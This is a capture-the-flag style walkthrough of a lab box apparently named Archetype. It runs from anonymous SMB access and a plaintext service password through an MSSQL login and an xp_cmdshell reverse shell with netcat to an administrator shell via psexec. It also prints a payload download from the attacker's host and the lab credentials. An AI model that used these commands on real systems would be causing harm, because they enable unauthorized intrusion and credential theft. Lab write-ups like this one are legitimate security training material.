 # Archetype

## Summary
We are able to find a password for user sql_svc in an smb share with no password  
Using this password, we use the Impacket tool mssqlclient to connect to the sql server which this box is hosting  
From there, we are able to get a reverse shell by uploading the netcat binary to the target machine  
Then, we enumerate the ConsoleHOST_history.txt file which shows us the administrator password  
With this, we use Impacket psexec.py to get a shell as administrator

## Enumeration
We find SMB ports are open and that there is a Microsoft SQL Server 2017 running on port 1433  
We first enumerate SMB with smbclient:  
`smbclient -N -L \\\\{target IP}\\`  
`-N` means no password  
We find that we can connect to the backups share with no password: `smbclient -N \\\\{target IP}\\backups`  
We find the password for user sql_svc M3g4c0rp123 written in plaintext in a file in this share

## Impacket
Impacket is a collection of Python classes for working with network protocols.  
Impacket is focused on providing low-level programatic access to the packets and for some protocols (eg SMB 1-3 and MSRPC) the protocol implementation itself  
mssqlclient.py is a script from Impacket collection which can be used in order to establish an authenticated connection to Microsoft SQL Server  
`/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.152.164 -windows-auth`

## Getting a Reverse Shell
We will upload the nc64.exe binary to the target machine and execute an interacitve cmd.exe process on our listening port  
We start a simple HTTP server from the location of the binary on our system: `sudo python3 -m http.server 80`  
Then, we start a netcat listener (in a different tab): `sudo nc -lvnp 443`  
Then, from the SQL server we will download the file:  
``SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{our vpn tun ip}/nc64.exe -outfile nc64.exe``    
On the HTTP server tab you should see the GET request logged  
Now, we can bind the cmd.exe through the nc to our listener:
``SQL> xp_cmdshell `"powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {our vpn tun ip} 443"``  
Looking back at our netcat listener we can confirm our reverse shell and our foothold on the system

## Privlege Escalation
winPEAS is a tool which can automate a big part of the enumeration process in the target system  
we can download winpeas from our system to the target box through our http server:  
`powershell`  
`wget http://{our vpn tun ip}/winPEASx64.exe -outfile winPEASx64.exe`  
Then, `.\winPEAS.exe`  
This returns a lot of stuff, however for this box, we end up basically not using winPEAS at all  
We just go to the folder where PowerShell history is stored:  
`C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline`  
`type ConsoleHost_history.txt` shows us the cleartext password for the administrator user which is MEGACORP_4dm1n!!

## PsExec
PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software  
PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IPConfig thaty otherwise do not have the ability to show information about remote systems  
Impacket has a script called psexec.py which provides PSEXEC like functionality  
Using this, and our administrator login, we can get a shell as an administrator:  
`python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@{Target_IP}`